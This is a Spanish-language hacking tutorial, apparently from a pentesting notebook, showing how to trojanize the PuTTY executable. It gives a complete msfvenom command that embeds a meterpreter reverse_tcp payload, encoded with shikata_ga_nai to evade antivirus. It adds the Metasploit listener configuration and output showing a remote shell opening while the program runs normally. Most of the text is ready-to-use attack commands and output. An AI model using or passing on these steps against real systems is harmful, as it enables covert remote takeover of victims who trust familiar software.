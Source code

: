 # Backdoors en binarios

Esto consiste en coger un ejecutable o un programa que el usuario utilice frecuentemente y vamos a injectarle codigo malicoso para que cada vez que ejecute ese programa nos devuelva una consexion reversa, pero dicho programa va a seguir funcionando exactamente igual que lo hacia antes de estar `backdoorizado`.

Por ejemplo vamos a utilizar una herramienta que utilizan mucho los administradores y es el programa llamado `PuTTY`:

Primero nos descargaremos el archivo.

```shell
wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
```

Y ahora vamos a utilizar `msfvenom` para incrustar el codigo de la `backdoor` dentro de la aplicacion:

```shell
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```

Info:

```
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: puttyX.exe
```

Con esto lo que estamos haciendo es que con el `-a` especificarle la arquitectura en este caso `32 bits` con el `--platform` especificamos el sistema operativo en el que se va a ejecutar en mi caso `windows` con el `-x` el nombre del archivo en el cual queremos injectar la `backdoor` con el `-p` especificamos el `payload` que vamos a utilizar, con el `-e` especificamos el tipo de codificacion que queremos ponerle al codigo para que sea mas complicado de detectar en el sistema como un `malware`, con el `-i` especificamos que le de `3` vueltas de codificacion, con el `-b` especificamos que omita caracteres en los que pueda generar un problema en este caso `\x00` el `0` en `hexadecimal`.

Ahora antes de ejecutarlo en un `windows` lo que tendremos que hacer es ponernos a escuchar en `metasploit`:

```shell
msfconsole -q
```

La configuracion de la escucha:

```shell
use multi/handler
set LHOST <IP>
set LPORT <PORT>
set payload windows/meterpreter/reverse_tcp
exploit
```

Una vez que estemos a la escucha, nos iremos al `windows` nos pasaremos el archivo al mismo y lo ejecutaremos, si lo ejecutamos vemos que se nos inicia la aplicacion normal sin ningun tipo de sospecha:

<figure><img src="../../../.gitbook/assets/image (137) (1).png" alt=""><figcaption></figcaption></figure>

Pero si nos vamos al `kali` donde tenemos la escucha, veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.5.186:7777 
[*] Sending stage (176198 bytes) to 192.168.5.181
[*] Meterpreter session 1 opened (192.168.5.186:7777 -> 192.168.5.181:49900) at 2024-11-24 05:21:32 -0500

meterpreter >
```

Veremos que tendremos una shell con el `windows`, por lo que ya tendriamos una `backdoor`.

